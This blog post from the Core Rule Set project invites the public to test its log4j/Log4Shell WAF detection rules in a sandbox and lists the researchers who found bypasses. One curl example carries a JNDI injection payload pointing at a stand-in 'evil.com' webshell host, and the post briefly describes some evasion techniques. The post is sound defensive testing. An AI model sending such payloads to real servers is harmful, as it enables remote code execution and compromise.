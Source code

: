 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-16T13:01:59+01:00'
guid: https://coreruleset.org/?p=1564
permalink: /20211216/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
title: Public Hunt for log4j / log4shell Evasions / WAF Bypasses
url: /2021/12/16/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
---
```



We have been updating our detection for the infamous CVE-2021-44228 vulnerability and its siblings for several days now. With the new experimental rule 1005, we think we really have decent detection capabilities now. Read up on this development in the separate blog post [CRS and Log4j / Log4Shell / CVE-2021-44228](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).  
  
Right before the log4j CVE was published, we took up our [CRS Sandbox](https://coreruleset.org/20211209/introducing-the-crs-sandbox/) that lets you test payloads against various CRS installations.  
  
We have now combined the [](https://coreruleset.org/20211209/introducing-the-crs-sandbox/)CRS Sandbox and the log4j detection to give you access to a live system with our new rule 1005 (and the expanded 932130). Successful bypasses will be listed in the Hall-of-Fame below.

#### How test my bypass?

```
<pre class="wp-block-preformatted">$ curl -H 'x-crs-version: 3.4.0-dev-log4j' -H 'x-format-output: txt-matched-rules' -H 'User-Agent: ${jndi:ldap://evil.com/webshell}' https://sandbox.coreruleset.org/
```

The important bit is the custom HTTP header `x-crs-version: 3.4.0-dev-log4j`:[ ](<x-crs-version: 3.4.0-dev-log4j>)With this version string you get onto our new instance that carries the latest versions of the log4j attack detection. The other instances are vanilla CRS tags. They won't get the new rules / capabilities until we do a new release (and given we're usually not add new rules to existing stable releases in order to avoid introducing new false positives, this won't be anytime soon).

#### Rules to get into the Hall-of-Fame

You need to do three things:

- You need to pull off a bypass against the sandbox.
- You need to tell us about the bypass by submitting your payload via mail to security at coreruleset.org.
- You need to declare that this is in fact a working exploit.

We do not have the capacity to determine whether bypasses actually work as an exploit against log4j. So we kind of need to take your word for it.

If somebody in the community has the knowledge and the capacity to support us with this discussion, then please get in touch.

#### Hall-of-Fame

- Dominik Strecker, Syracom Schweiz AG : *Bypass via an XML attribute due to broken XPath selector in our rule 1005.*

##### Honorary mentions

- *Denis Augsburger ([@denisaugsburger](https://twitter.com/denisaugsburger)), TWTeam Switzerland : Bypass of rule 1005 with a spectacular evasion, that was detected by extended rule 932130*
- *Matej Sustr, Slovakia: Bypass of rule 1005 with an alternative evasion to Denis Augsburger's bypass, also detected by rule 932130*.
- *Matej Sustr, Slovakia: Bypass of rule set with an interesting evasion that depends on server side decoding before hitting log4j*.

Denis Augsburger has found a way around 1005 and we might have to update the rule. The problem is that his evasion is exploiting a fundamental mis-conception of our rule. We still think we are on the safe side thanks to 932130, but investigation continues.

The 2nd bypass of Matej Sustr is also very interesting because it goes undetected entirely. It exploit a vanilla log4j, though. It takes a special use case where Java code decodes the payloads before sending it to log4j.

#### Changelog

2021-12-16 12:30 CET: Published  
2021-12-20 10:30 CET: Added Dominik Strecker to hall of fame  
2021-12-20 14:00 CET: Added Syracom Schweiz AG to Dominik's name  
2021-12-23 16:40 CET: Added Denis Augsburger, TWTeam, under Honorary mentions  
2022-01-07 14:30 CET: Added Matej Sustr under Honorary mentions
